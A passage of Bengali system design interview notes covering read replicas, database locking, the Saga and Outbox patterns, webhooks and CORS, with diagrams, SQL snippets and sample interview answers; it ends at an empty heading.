> "সার্ভিস ডিসকভারি ডাইনামিক ক্লাউড এনভায়রনমেন্টে সার্ভিস ইন্ট্যান্সগুলোর আইপি-পোর্ট অটোমেটিক রেজিস্টার ও ডিসকভার করতে সাহায্য করে। এটি মূলত Client-Side (Consul/Eureka) এবং Server-Side (Kubernetes DNS/LB) মেথডে কাজ করে। প্রোডাকশন সিস্টেমে আমরা Kubernetes Service এবং কড়া Readiness ও Liveness probes ব্যবহার করে ট্রাফিক ডিস্ট্রিবিউশন নিশ্চিত করি।"


## 43. Database Replication & Read Replicas

### Core Idea

**Database Replication (ডাটাবেস রেপ্লিকেশন):** হলো প্রাইমারি ডাটাবেস সার্ভার (Primary / Master DB) থেকে রিয়েল-টাইমে ডেটা কপি করে এক বা একাধিক রেপ্লিকা ডাটাবেস সার্ভারে (Read Replicas) সিঙ্ক বা ট্রান্সফার করার একটি রিডাণ্ডেন্ট মেকানিজম। 
- **Writes:** সমস্ত কাস্টমার রাইট অপারেশন (INSERT, UPDATE, DELETE) শুধুমাত্র **Primary DB**-তে হিট করে।
- **Reads:** সমস্ত কাস্টমার রিড অপারেশন (SELECT queries, ড্যাশবোর্ড রিপোর্ট) **Read Replicas**-এ ডিস্ট্রিবিউট বা ভাগ করে দেওয়া যায়, যা মূল ডাটাবেসের ৯৫% রিড প্রেশার এক লাফে কমিয়ে দেয়।

### Primary-Replica Architecture & Async Lag

```mermaid
flowchart TD
    Client[Web Application] -->|Writes: INSERT/UPDATE| Primary["(Primary DB Server)"]
    Client -->|Reads: SELECT| Replica1["(Read Replica 1)"]
    Client -->|Reads: SELECT| Replica2["(Read Replica 2)"]
    
    Primary -->|Async Replication Lag: e.g. 50ms| Replica1
    Primary -->|Async Replication Lag: e.g. 100ms| Replica2
    
    style Primary fill:#fbb,stroke:#333
    style Replica1 fill:#bfb,stroke:#333
    style Replica2 fill:#bfb,stroke:#333
```

### Why Use Read Replicas?

1. **Read Scaling:** রিড কুয়েরির ট্রাফিক হাজার গুণ বাড়িয়ে স্কেল করা যায় রেপ্লিকা নোড যোগ করার মাধ্যমে।
2. **High Availability & Failover:** যদি হঠাৎ প্রাইমারি ডাটাবেস সার্ভারটি ক্র্যাশ করে, তবে আমরা একটি রিড রেপ্লিকাকে প্রোমোট করে সেকেন্ডের মধ্যে নতুন **Primary DB** বানিয়ে সার্ভিস রানিং রাখতে পারি (Promote to Primary).
3. **Offloading Analytics:** ড্যাশবোর্ডের ভারী রিপোর্ট বা এনালিটিক্যাল বড় কোয়েরিগুলো রেপ্লিকায় চালানো হয় যাতে লাইভ কাস্টমারদের কুয়েরি স্লো না হয়।

### Senior Insight (Mitigating Replication Lag)

ডিস্ট্রিবিউটেড ডাটা রেপ্লিকেশন প্রসেস সাধারণত অ্যাসিনক্রোনাস (Asynchronous) হয়, যা সিস্টেমে সাময়িক **Replication Lag** তৈরি করে।
- **Read-After-Write Consistency Solution:** ইউজার যখন তার প্রোফাইল আপডেট করে সাথে সাথে রিফ্রেশ দেয়, তখন রিড কুয়েরি যদি ওল্ড রেপ্লিকাতে যায়, তবে ইউজার পুরনো প্রোফাইল পিকচারই দেখতে পাবে এবং মন খারাপ করবে।
- **সিনিয়র আর্কিটেকচার পলিসি:**
  - ইউজার যে কলাম বা অবজেক্ট নিজে রাইট বা আপডেট করেছে, পরবর্তী ৩-৫ সেকেন্ডের জন্য তার নিজস্ব রিড রিকোয়েস্টগুলো সরাসরি **Primary DB**-তে রাউট করতে হবে।
  - বাকি সাধারণ ইউজারদের রিড রিকোয়েস্টগুলো রেপ্লিকা থেকে সার্ভ করা সেফ। এটি স্টিকি সেশন বা এপিআই রাউটার দিয়ে হ্যান্ডেল করা হয়।

### Common Mistakes

- **Treating Read Replicas as Backup Databases:** ভাবা যে রেপ্লিকা থাকলেই ডেটা ব্যাকআপ সেফ। যদি কোনো ডেভেলপার ভুল করে প্রাইমারি ডিবির টেবিল ড্রপ (`DROP TABLE users`) করে, তবে রেপ্লিকাও ১ মিলি-সেকেন্ডের মধ্যে ওই টেবিল ড্রপ করে দিবে! ব্যাকআপের জন্য ডেডিকেটেড **Point-in-Time Recovery (PITR)** এবং অফলাইন ব্যাকআপ ক্রন রাখতে হবে।
- **Connecting Write Operations to Replicas:** ভুল করে অ্যাপ্লিকেশনের রাইট এপিআই কানেকশন স্ট্রিংয়ে রেপ্লিকার আইপি অ্যাসাইন করা, যা `Read-Only Connection` এরর দিয়ে সার্ভিস ক্র্যাশ করাবে।

### Interview Angle

> "আরডিবিএমএস স্কেলিংয়ের সবচেয়ে কার্যকরী পদক্ষেপ হলো Read Replicas বসানো, যা প্রাইমারি থেকে রিড ওভারহেড সরিয়ে দেয় এবং হাই-এভেইলেবিলিটি (Failover) নিশ্চিত করে। অ্যাসিনক্রোনাস রেপ্লিকেশন ল্যাগের কারণে সাময়িক Stale Read এড়াতে আমরা প্রজেক্টে Read-after-write পলিসি আর্কিটেক্ট করি এবং ক্রিটিক্যাল রাইট ফ্লোর পরপরই রিডগুলো ডিরেক্ট প্রাইমারিতে রাউট করি।"


## 44. Database Locks & Concurrency Control

### Core Idea

ডিস্ট্রিবিউটেড সিস্টেমে যখন একাধিক ইউজার বা কনকারেন্ট রিকুয়েস্ট একই মিলি-সেকেন্ডে ডাটাবেসের একই ডাটা রো (Row) আপডেট করার চেষ্টা করে, তখন ডাটা করাপ্ট বা লস্ট আপডেট (Lost Update) প্রবলেম হতে পারে। এটি প্রতিরোধ করতে ডাটাবেস লক (Database Locks) এবং কনকারেন্সি কন্ট্রোল ব্যবহার করা হয়।

### Optimistic vs Pessimistic Locking Flow

কনকারেন্সি হ্যান্ডেল করতে মূলত ২টি জনপ্রিয় লক ডিজাইন স্ট্র্যাটেজি ব্যবহার করা হয়:

```mermaid
sequenceDiagram
    autonumber
    actor Client A as User A
    actor Client B as User B
    participant DB as Database Row (id=1, balance=100)

    rect rgb(240, 255, 240)
        Note over Client A, DB: Pessimistic Locking (Exclusive Lock)
        Client A->>DB: SELECT FOR UPDATE (Lock Row)
        DB-->>Client A: Row Locked (balance=100)
        Client B->>DB: SELECT FOR UPDATE (Attempt Lock)
        Note over Client B, DB: Client B blocked, waiting for Client A
        Client A->>DB: UPDATE balance=120
        DB-->>Client A: Success (Release Lock)
        DB-->>Client B: Row Unlocked for B (balance=120)
    end

    rect rgb(255, 240, 240)
        Note over Client A, DB: Optimistic Locking (Versioning)
        Client A->>DB: SELECT balance=100, version=1
        Client B->>DB: SELECT balance=100, version=1
        Client A->>DB: UPDATE balance=120 WHERE id=1 AND version=1 (Set version=2)
        DB-->>Client A: Success (1 row updated)
        Client B->>DB: UPDATE balance=150 WHERE id=1 AND version=1 (Set version=2)
        DB-->>Client B: FAILED (0 rows updated! Version has changed to 2)
        Note over Client B: Client B handles conflict (Retry or Error)
    end
```

#### ১. Pessimistic Locking (নিরাশাবাদী লক)
এটি ধরে নেয় যে সিস্টেমে সংঘর্ষ (Conflict) হবেই। তাই ডাটা রিড করার সময়ই রো-টি বুক বা লক করে নেওয়া হয় যাতে অন্য কেউ এটি টাচ করতে না পারে।
- **SQL:** `SELECT * FROM accounts WHERE id = 1 FOR UPDATE;`
- **সুবিধা:** ১০০% ডাটা কনসিস্টেন্সি গ্যারান্টি।
- **অসুবিধা:** থ্রেড ব্লকিং ওভারহেড অনেক বেশি। লক রিলিজ হতে দেরি হলে সিস্টেমের স্কেলাবিলিটি মারাত্মক ব্যাহত হয় (Deadlocks হওয়ার সম্ভাবনা থাকে)।

#### ২. Optimistic Locking (আশাবাদী লক)
এটি ধরে নেয় যে সিস্টেমে কলিশন বা সংঘর্ষের সম্ভাবনা খুব কম। এটি রিড করার সময় কোনো লক করে না। তবে আপডেট করার সময় চেক করে যে সে রিড করার পর থেকে এ পর্যন্ত অন্য কেউ ডাটাটি বদলে দিয়েছে কিনা (সাধারণত একটি `version` কলাম ব্যবহার করে)।
- **SQL:** `UPDATE accounts SET balance = 120, version = version + 1 WHERE id = 1 AND version = 1;`
- **সুবিধা:** কোনো ডাটাবেস লেভেল থ্রেড ব্লকিং নেই। হাই-কনকারেন্ট সিস্টেমে চরম স্কেলেবল।
- **অসুবিধা:** কলিশন হলে রিকুয়েস্ট ফেইল করবে। অ্যাপ্লিকেশন লেভেলে কাস্টম রিট্রাই বা এরর হ্যান্ডেল করতে হয়।

### Senior Insight

- **Selecting the right Lock:**
  - **Pessimistic Lock** ব্যবহার করুন ফিনান্সিয়াল ট্রানজেকশন, সিট বুকিং বা স্টক ম্যানেজমেন্টের ক্ষেত্রে যেখানে ডাটা ওভাররাইট হওয়া কোনোভাবেই গ্রহণযোগ্য নয় এবং রাইট ফ্রিকোয়েন্সি মাঝারি।
  - **Optimistic Lock** ব্যবহার করুন হাই-ট্রাফিক সোশ্যাল মিডিয়া, এডিটর কোলাবোরেশন বা জেনারেল প্রোডাক্ট ইনফো আপডেটের ক্ষেত্রে যেখানে রিড অপারেশন বেশি এবং ডিরেক্ট ডাটা লকের কস্ট অনেক বেশি।
- **Deadlock Mitigation:** ডাইরেক্ট লক (Pessimistic) ব্যবহার করলে ডেডলক এড়াতে সর্বদা টেবিলে একই অর্ডারে লক নিতে হবে (যেমন সবসময় আগে User A তারপর User B লক করা)। এছাড়া লকের সর্বোচ্চ টাইমআউট (`lock_timeout`) সেট রাখা মাস্ট।

### Common Mistakes

- **Pessimistic Lock over external network calls:** ডাটাবেস রো লক (SELECT FOR UPDATE) করে রাখার পর ট্রানজেকশনের ভেতরে কোনো এক্সটার্নাল থার্ড-পার্টি পেমেন্ট এপিআই কল করা। পেমেন্ট এপিআই যদি ৫ সেকেন্ড স্লো হয়, তবে পুরো ৫ সেকেন্ড ডাটাবেসের ওই রো লকড থাকবে যা ডিবির কানেকশন এক্সহস্ট করে সিস্টেম ডাউন করে দিবে।
- **No Versioning in Optimistic Lock:** কলাম ভ্যালু ডাইরেক্ট যোগ বিয়োগ করা যেমন: `SET balance = balance - 10`. এটি আংশিক কনকারেন্সি আটকাতে পারলেও ডাবল সাবমিট বা রাইট কনফ্লিক্ট এড়াতে পারে না।

### Interview Angle

> "কনকারেন্ট ডাটা রাইট প্রটেক্ট করতে আমরা মূলত Pessimistic ও Optimistic Locking ব্যবহার করি। ব্যাংকিং বা পেমেন্টের মতো অতি সংবেদনশীল বিজনেসে আমরা SELECT FOR UPDATE দিয়ে Pessimistic Lock করি যাতে ডেটা রেস কন্ডিশন না ঘটে। আর হাই-থ্রুপুট সাধারণ কুয়েরির ক্ষেত্রে আমরা version কলাম দিয়ে Optimistic Lock ব্যবহার করে স্কেলাবিলিটি বজায় রাখি।"


## 45. Saga Pattern

### Core Idea

মাইক্রোসার্ভিস আর্কিটেকচারে প্রতি সার্ভিসের নিজস্ব ডাটাবেস থাকায় আমরা মনোলিথের মতো একক ডাটাবেস ট্রানজেকশন (ACID) মারতে পারি না। **Saga Pattern** হলো ডিস্ট্রিবিউটেড সিস্টেমে একাধিক সার্ভিস জুড়ে ট্রানজেকশনাল কনসিস্টেন্সি বজায় রাখার একটি প্যাটার্ন। এটি মূলত একগুচ্ছ লোকাল ট্রানজেকশনের সমষ্টি। যদি কোনো একটি সার্ভিস লোকাল ট্রানজেকশনে ফেইল করে, তবে সাগা তার আগের সফল হওয়া সার্ভিসগুলোর ট্রানজেকশন বাতিল করতে কম্পেনসেটিং ট্রানজেকশন (Compensating Transactions) বা রোলব্যাক ইভেন্ট ট্রিগার করে।

### Saga-এর ২টি মূল ডিজাইন মেথড

```mermaid
sequenceDiagram
    autonumber
    actor Orchestrator as Saga Orchestrator (Central Controller)
    participant User as User Service
    participant Order as Order Service
    participant Payment as Payment Service

    rect rgb(240, 255, 240)
        Note over Orchestrator, Payment: Orchestration-Based Saga
        Orchestrator->>Order: 1. Create Pending Order
        Order-->>Orchestrator: Success
        Orchestrator->>Payment: 2. Process Payment
        alt Payment Successful
            Payment-->>Orchestrator: Success
            Orchestrator->>Order: 3. Approve Order (Complete)
        else Payment Failed
            Payment-->>Orchestrator: Failed
            Orchestrator->>Order: 4. Compensate: Cancel Order (Rollback)
        end
    end
```

#### ১. Choreography (নৃত্যপরিকল্পনা - ইভেন্ট ড্রিভেন)
কোনো সেন্ট্রাল কন্ট্রোলার থাকে না। প্রতিটি সার্ভিস একটি কাজ শেষ করে মেসেজ ব্রোকারে ইভেন্ট ছুড়ে দেয় এবং পরবর্তী সার্ভিস সেই ইভেন্ট শুনে নিজের কাজ শুরু করে।
- **সুবিধা:** কোনো সিঙ্গেল পয়েন্ট অব ফেইলিউর নেই, লুজলি কাপলড।
- **অসুবিধা:** সার্ভিসের সংখ্যা বাড়লে ইভেন্ট ফ্লো ট্র্যাক করা এবং ডিবাগ করা অত্যন্ত কঠিন হয়ে পড়ে।

#### ২. Orchestration (অorchestrator - সেন্ট্রাল ম্যানেজার)
একটি ডেডিকেটেড সেন্ট্রাল সার্ভিস বা অর্কেস্ট্রেটর (Saga Orchestrator) সম্পূর্ণ সাগা ফ্লো ম্যানেজ করে। সে একে একে প্রতিটি সার্ভিসকে নির্দেশ দেয় এবং এরর হলে রোলব্যাক বা কম্পেনসেটিং অ্যাকশন ফায়ার করে।
- **সুবিধা:** পুরো ট্রানজেকশন ফ্লো এক জায়গায় ভিজ্যুয়ালাইজ ও কন্ট্রোল করা যায়। জটিল ফ্লোর জন্য বেস্ট।
- **অসুবিধা:** অর্কেস্ট্রেটর ডাউন হলে পুরো ট্রানজেকশন প্রসেস বন্ধ হয়ে যেতে পারে (Single point of failure/bottleneck).

### Compensating Transaction Example (ক্ষতিপূরণমূলক ট্রানজেকশন)

ধরা যাক, আমরা একটি হোটেল বুকিং প্রজেক্ট বানাচ্ছি:
1. **Action:** Flight Service বুকিং সাকসেসফুল করলো।
2. **Action:** Hotel Service রুম বুকিং করতে গিয়ে ফেইল করলো (নো রুম এভেইলেবল)।
3. **Compensating Action:** সাগা সাথে সাথে Flight Service-কে বলবে, "বুক করা ফ্লাইটটি কোনো চার্জ ছাড়াই ক্যানসেল বা রিফান্ড করো।"

### Senior Insight

- **Idempotency is Mandatory:** সাগা প্যাটার্নে নেটওয়ার্ক ড্রপের কারণে মেসেজ ডুপ্লিকেট রি-ডেলিভারি হওয়া খুবই কমন। তাই সাগার অংশ হওয়া প্রতিটি মাইক্রোসার্ভিস এপিআই/ইভেন্ট হ্যান্ডলারকে অবশ্যই **১০০% Idempotent** হতে হবে।
- **Outbox Pattern Integration:** সাগা অর্কেস্ট্রেটর যখন অন্য সার্ভিসকে ইভেন্ট পাঠায়, ডাটাবেস রাইট এবং ইভেন্ট পাবলিশ একই ট্রানজেকশনে করার জন্য **Transactional Outbox Pattern** ব্যবহার করা উচিত, অন্যথায় ডেটা মিসম্যাচ হতে পারে।

### Common Mistakes

- **Designing sagas with circular dependencies:** সাগা ডিজাইনে যদি সার্ভিস A সার্ভিস B-কে ট্রিগার করে এবং B আবার A-কে ইভেন্ট পাঠায়, তবে ইনফিনিট লুপ তৈরি হয়ে সিস্টেমের সার্ভিস রিসোর্স জ্যাম হয়ে যাবে।
- **Thinking Compensating action is simple delete:** হোটেল বা বিমানের ক্ষেত্রে টিকিট বুক হয়ে যাওয়ার পর রোলব্যাক মানে সরাসরি ডাটাবেস থেকে রো ডিলিট করে দেওয়া নয়। এটি একটি নতুন বিজনেস ইভেন্ট (Cancel Ticket with refund logs), যা অডিটিং নিশ্চিত করে।

### Interview Angle

> "মাইক্রোসার্ভিসে ডিস্ট্রিবিউটেড ট্রানজেকশন নিশ্চিত করতে আমরা Saga Pattern ব্যবহার করি। ছোট ও মাঝারি ফ্লোর জন্য Choreography এবং বড় বা কমপ্লেক্স বিজনেস ফ্লোর জন্য Orchestration-based Saga ব্যবহার করা বেস্ট প্র্যাকটিস। কোনো একটি নোডে এরর হলে সিস্টেমকে কনসিস্টেন্ট অবস্থায় ফেরাতে আমরা ক্রমান্বয়ে Compensating Transactions রান করি এবং প্রতিটি সার্ভিসকে Idempotent রাখি।"


## 46. Outbox Pattern

### Core Idea

ডিস্ট্রিবিউটেড সিস্টেমে যখন একটি সার্ভিস তার স্থানীয় ডাটাবেসে ডাটা রাইট করে (যেমন: `INSERT INTO orders`) এবং একই সাথে অন্য মাইক্রোসার্ভিসগুলোকে জানানোর জন্য মেসেজ ব্রোকারে (যেমন: Kafka/RabbitMQ) ইভেন্ট পাবলিশ করে, তখন একটি বড় **Dual-Write** প্রবলেম তৈরি হয়:
- ডাটাবেস রাইট সফল হলো কিন্তু মেসেজ ব্রোকার ডাউন থাকায় ইভেন্ট পাবলিশ ফেইল করলো। ফলে অন্য সার্ভিসগুলো ডেটা আপডেট জানতে পারলো না (Data Inconsistency).
- অথবা মেসেজ পাবলিশ সাকসেসফুল হলো কিন্তু ডাটাবেসে ট্রানজেকশন রোলব্যাক হলো। ফলে সিস্টেমে ভূতুরে মেসেজ (Ghost Messages) চলে গেল।

**Transactional Outbox Pattern** এই ডিল-রাইট প্রবলেম নিখুঁতভাবে সমাধান করে।

### Outbox Pattern Flow (ভিজ্যুয়ালাইজেশন)

মেসেজ ও ডিবি রাইটকে একটি একক লোকাল ট্রানজেকশনে বাউন্ড করার মেকানিজম:

```mermaid
sequenceDiagram
    autonumber
    actor Client as Client Request
    participant App as Order Service
    participant DB as DB (Orders & Outbox Table)
    participant Relay as Message Relay / Debezium
    participant MQ as Message Broker (Kafka)

    Client->>App: POST /orders
    App->>DB: Begin Local Transaction
    App->>DB: 1. Insert Order details
    App->>DB: 2. Insert Outbox Event (OrderCreatedEvent)
    App->>DB: Commit Transaction
    DB-->>App: Success
    App-->>Client: Order Created (HTTP 201)
    
    rect rgb(255, 240, 245)
        Note over Relay, MQ: Asynchronous Event Publishing
        Relay->>DB: 3. Poll Outbox Table or Read DB WAL Logs (CDC)
        Relay->>MQ: 4. Publish Event to Kafka
        Relay->>DB: 5. Delete or Mark Outbox Event as PROCESSED
    end
```

### কাজ করার ধাপসমূহ

1. **Transactional Boundary:** অর্ডার সেভ করার সময় একই লোকাল ACID ট্রানজেকশনে ডাটাবেসের একটি বিশেষ **Outbox** নামক টেবিলেও ইভেন্ট মেসেজটি ইনসার্ট করা হয়:
   ```sql
   BEGIN TRANSACTION;
   INSERT INTO orders (id, total) VALUES (101, 500);
   INSERT INTO outbox (id, aggregate_type, payload) VALUES (999, 'Order', '{"id": 101, "total": 500}');
   COMMIT;
   ```
2. **Reliable Commit:** যেহেতু দুটি ইনসার্টই একই ট্রানজেকশনের অংশ, তাই হয় দুটিই সফল হবে, নাহলে কোনোটিই হবে না।
3. **Message Relay (CDC / Poller):** একটি ব্যাকগ্রাউন্ড রিলে সার্ভিস (যেমন **Debezium** যা DB-এর Write-Ahead Log - WAL রিড করে, অথবা একটি রিলে পোলার) অনবরত `outbox` টেবিল থেকে নতুন মেসেজ স্ক্যান করে রিড করে।
4. **Publish to MQ:** রিলে সার্ভিস মেসেজটি মেসেজ ব্রোকারে সফলভাবে পাবলিশ করে।
5. **Mark Processed:** পাবলিশ সফল হওয়ার পর রিলে সার্ভিস `outbox` টেবিল থেকে মেসেজটি ডিলিট করে অথবা স্ট্যাটাস `PROCESSED` মার্ক করে।

### Senior Insight

- **At-Least-Once Delivery Guarantee:** আউটবক্স প্যাটার্ন নিশ্চিত করে যে মেসেজ অন্ততঃ একবার মেসেজ ব্রোকারে ডেলিভারি হবেই (At-least-once delivery). মেসেজ ডুপ্লিকেট হতে পারে যদি ব্রোকারে পাবলিশ হওয়ার পর ডাটাবেস স্ট্যাটাস আপডেট করার আগেই রিলে সার্ভিস ক্র্যাশ করে। তাই ডাউন্সট্রিম কনজিউমার সার্ভিসগুলোকে অবশ্যই **Idempotent** হতে হবে।
- **CDC vs Polling:**
  - **Polling Publisher:** ব্যাকগ্রাউন্ড স্ক্রিপ্ট দিয়ে প্রতি ১ সেকেন্ড পর পর কুয়েরি করা (`SELECT * FROM outbox WHERE status = 'PENDING'`). ছোট প্রজেক্টের জন্য সহজ, তবে হাই-ট্রাফিকে ডিবিতে রিড প্রেশার ফেলে।
  - **Transaction Log Mining (CDC - Change Data Capture):** ডাটাবেসের WAL (Write-Ahead Log) ফাইল সরাসরি রিড করা (যেমন Debezium ব্যবহার করে)। এটি ডাটাবেসে কোনো এক্সট্রা রিড প্রেশার দেয় না, অত্যন্ত ফাস্ট এবং প্রফেশনাল এন্টারপ্রাইজ স্ট্যান্ডার্ড।

### Common Mistakes

- **Publishing events directly from controllers:** কন্ট্রোলারের ভেতরে ট্রাই-ক্যাচের মাধ্যমে মেসেজ পাবলিশ করার চেষ্টা করা। এটি নেটওয়ার্ক গ্লিচের সময় ডাটা কনসিস্টেন্সি নষ্ট করে।
- **Not maintaining order in Outbox:** একই আইডির মাল্টিপল ইভেন্ট (যেমন OrderCreated তারপর OrderCancelled) যদি আগে-পরে পাবলিশ হয়, তবে সিস্টেমে বড় ধরনের গন্ডগোল হবে। আউটবক্স মেসেজে অবশ্যই টাইমস্ট্যাম্প বা সিকোয়েন্স আইডি ট্র্যাক করতে হবে।

### Interview Angle

> "ডিস্ট্রিবিউটেড ডিল-রাইট প্রবলেম এড়াতে এবং At-Least-Once মেসেজ ডেলিভারি নিশ্চিত করতে আমরা Transactional Outbox Pattern ব্যবহার করি। আমরা মূল ডেটার সাথে একই ACID ট্রানজেকশনে একটি outbox টেবিলে ইভেন্ট পেলোড সেভ করি। পরবর্তীতে Debezium বা CDC (Change Data Capture) রিলে দিয়ে সেই মেসেজ ব্রোকারে পুশ করি যা সিস্টেম ইন্টিগ্রিটি শতভাগ ধরে রাখে।"


## 47. Webhooks

### Core Idea

**Webhook (ওয়েবহুক):** হলো এক ধরণের উল্টো এপিআই বা **Reverse API**। সাধারণ এপিআইতে ক্লায়েন্ট সার্ভারকে কল করে ডেটা চায়, আর ওয়েবহুকের ক্ষেত্রে আমাদের ব্যাকএন্ড সার্ভার একটি লিসেনার (Listener Endpoint) হিসেবে বসে থাকে এবং কোনো এক্সটার্নাল থার্ড-পার্টি সার্ভিস (যেমন: Stripe, PayPal, GitHub) কোনো নির্দিষ্ট ইভেন্ট সফল হওয়ার পর নিজে থেকে আমাদের ব্যাকএন্ডের ইউআরএল-এ HTTP POST রিকোয়েস্টের মাধ্যমে ডেটা পুশ করে।

### Webhook Event Flow: Stripe Payment Example

```mermaid
sequenceDiagram
    autonumber
    actor User as Customer
    participant Stripe as Stripe Payment Gateway
    participant App as Backend Webhook Listener
    participant Worker as Background Job Worker

    User->>Stripe: Submit Credit Card & Pay $100
    Note over Stripe: Payment processed successfully!
    Stripe-->>User: Show Payment Success Screen
    
    rect rgb(255, 240, 245)
        Note over Stripe, App: Webhook Trigger (Asynchronous Call)
        Stripe->>App: POST /api/webhooks/stripe (Payload: {payment_status: "success", signature: "x9a"})
        Note over App: 1. Verify Cryptographic Signature<br/>2. Return instant HTTP 200 OK
        App-->>Stripe: HTTP 200 OK (Fast Ack!)
    end
    
    Note over App, Worker: Async Job Processing
    App->>Worker: Enqueue Job: {type: "deliver_order", user: 101}
    Worker->>Worker: Process payment delivery in background
```

### Webhook রিসিভারের জন্য সুবর্ণ নিয়মসনূহ (Receiver Guidelines)

1. **Verify Signatures:** ওয়েবহুক এন্ডপয়েন্টগুলো পাবলিক ইন্টারনেটে ওপেন থাকে। হ্যাকাররা ফেইক পেমেন্ট সাকসেস রিকোয়েস্ট পাঠাতে পারে। তাই প্রোভাইডারের শেয়ারড সিক্রেট দিয়ে হেডারে আসা ক্রিপ্টোগ্রাফিক ডিজিটাল সিগনেচার (Digital Signature) অবশ্যই ভেরিফাই করতে হবে।
2. **Fast Acknowledgement (`200 OK`):** থার্ড-পার্টি সার্ভিসগুলো ওয়েবহুক কলের জন্য সর্বোচ্চ ৩-৫ সেকেন্ড ওয়েট করে। আপনার ব্যাকএন্ড যদি ওয়েবহুক রিসিভ করে ওই রিকোয়েস্ট থ্রেডে পেমেন্ট প্রসেস, ইমেল পাঠানো ইত্যাদি কাজ করে লেটেন্সি বাড়ায়, তবে প্রোভাইডার কানেকশন কেটে দিয়ে রিকোয়েস্টটি পুনরায় বারবার পাঠাতে থাকবে (Retry)। তাই এপিআই রিসিভ করেই সাথে সাথে ডাটাবেসে সেভ বা কিউতে পুশ করে ওয়ান-শটে `HTTP 200 OK` রিটার্ন করে দিতে হবে।
3. **Strict Idempotency:** নেটওয়ার্ক ল্যাগের জন্য একই ওয়েবহুক মেসেজ ৩-৪ বার রি-ডেলিভারি হতে পারে। তাই ওয়েবহুক ডাটার `event_id` বা `invoice_id` চেক করে ডাটাবেসে ডুপ্লিকেট প্রসেস এড়াতে ডি-ডুপ্লিকেশন লজিক বসানো আবশ্যক।

### Senior Insight

- ** webhook Secret Rotation Plan:** প্রোডাকশনে সিকিউরিটি বজায় রাখতে ব্যাকএন্ডে ওয়েবহুক সিক্রেট কি কি নিয়মিত রোটেট (Rotation) করার কোড সাপোর্ট থাকতে হবে। ওল্ড কি এবং নিউ কি একই ট্রাই-ক্যাচ ব্লকে ভ্যালিডেট করা বেস্ট প্র্যাকটিস যাতে রোটেশন উইন্ডোতে কোনো ইভেন্ট ফেইল না করে।
- **Handling Out-of-Order Delivery:** ডিস্ট্রিবিউটেড কিউতে ইভেন্ট উল্টাপাল্টা আসতে পারে (যেমন `payment.failed` মেসেজ `payment.created` এর আগে রিসিভ হওয়া)। সিস্টেমে স্টেট আপডেট করার সময় সর্বদা মেটাডেটা টাইমস্ট্যাম্প চেক করা উচিত।

### Common Mistakes

- **Performing heavy processing synchronously inside webhook controller:** ডাটাবেসের ভারী কাজ এপিআই কন্ট্রোলারের ভেতর করা, যার ফলে প্রোভাইডার রিকোয়েস্ট টাইমআউট দেয়।
- **No Signature Verification:** সিগনেচার চেক না করেই ডাটাবেসে স্টেট আপডেট করে প্রোডাক্ট ডেলিভারি দিয়ে দেওয়া। এতে কোম্পানি বড় ধরনের ফিনান্সিয়াল ফ্রডের শিকার হবে।

### Interview Angle

> "ওয়েবহুক হলো থার্ড-পার্টি ইভেন্ট পুশ মেকানিজম বা Reverse API। সিনিয়র সিস্টেম ডিজাইন অনুযায়ী, আমরা ওয়েবহুক এপিআই এন্ডপয়েন্টে কড়া Signature Verification নিশ্চিত করি, রিকোয়েস্টটি পাওয়া মাত্রই কিউতে পাঠিয়ে মিলি-সেকেন্ডে HTTP 200 OK রিটার্ন করি এবং ইভেন্ট প্রসেসিং অ্যাসিনক্রোনাস BullMQ দিয়ে প্রসেস করে ডুপ্লিকেট এড়াতে Idempotent লজিক বসাই।"


## 48. CORS (Cross-Origin Resource Sharing)

### Core Idea

**CORS (Cross-Origin Resource Sharing):** এটি একটি অত্যন্ত গুরুত্বপূর্ণ ব্রাউজার-লেভেল সিকিউরিটি মেকানিজম (Browser Security Boundary)। এটি নির্ধারণ করে যে এক ডোমেইনে চলা ফ্রন্টএন্ড অ্যাপ্লিকেশন (যেমন: `https://app.com`) সম্পূর্ণ ভিন্ন ডোমেইনে হোস্ট করা কোনো ব্যাকএন্ড এপিআই সার্ভারে (যেমন: `https://api.com`) ব্রাউজার স্ক্রিপ্টের মাধ্যমে ডেটা আদান-প্রদান করতে পারবে কিনা।

### Same-Origin vs Cross-Origin
ব্রাউজার ডিফল্টভাবে **Same-Origin Policy (SOP)** মেনে চলে। অর্থাৎ স্কিম (HTTP/HTTPS), হোস্ট ডোমেইন, এবং পোর্ট তিনটি ১০০% ম্যাচ করলেই কেবল কমিউনিকেশন এলাউ করে। এর বাইরে গেলেই সেটি **Cross-Origin** এবং এর জন্য সার্ভারের অনুমতি বা স্পেশাল CORS হেডার্স প্রয়োজন।

### CORS Handshake: Preflight OPTIONS Request

```mermaid
sequenceDiagram
    autonumber
    actor Browser as User Browser
    participant API as Backend API Server

    rect rgb(255, 240, 245)
        Note over Browser, API: Preflight Request (OPTIONS)
        Browser->>API: OPTIONS /api/orders (Origin: app.com, Request-Method: POST)
        Note over API: Verifies CORS configurations
        API-->>Browser: HTTP 200 OK (Headers: Allow-Origin: app.com, Allow-Methods: POST)
    end

    rect rgb(240, 255, 240)
        Note over Browser, API: Actual Request
        Browser->>API: POST /api/orders (with credentials/payload)
        API-->>Browser: HTTP 201 Created (Data payload)
    end
```

### Preflight Request & HTTP OPTIONS
ব্রাউজার যখন কোনো সেনসিটিভ বা নন-সিম্পল এপিআই কল (যেমন: `POST/PUT` উইথ JSON payload বা custom headers) অন্য অরিজিনে পাঠাতে চায়, তখন ব্রাউজার নিজে থেকে ব্যাকএন্ড এপিআই সার্ভারে একটি ডামি রিকোয়েস্ট পাঠায় যাকে **Preflight Request** বলা হয় (এটি `OPTIONS` মেথড ব্যবহার করে)। ব্যাকএন্ড যদি রেসপন্সে পারমিশন কনফিগারেশন সঠিক পাঠায়, ব্রাউজার তখনই কেবল আসল রিকোয়েস্টটি ছুড়ে দেয়।

### Key CORS Headers

- `Access-Control-Allow-Origin`: কোন কোন ফ্রন্টএন্ড ডোমেইন ডেটা রিড করতে পারবে (যেমন: `https://app.com` বা `*`)।
- `Access-Control-Allow-Credentials`: কুকি বা অথেনটিকেশন হেডার সেন্ড করতে দিলে এর মান `true` করতে হবে।
- `Access-Control-Max-Age`: প্রিফ্লাইট OPTIONS রিকোয়েস্টের ক্যাশ ডিউরেশন (সেকেন্ডে)। এটি বাড়িয়ে দিলে প্রতিবার OPTIONS কলের অতিরিক্ত লেটেন্সি কমে যায়।

### Senior Insight

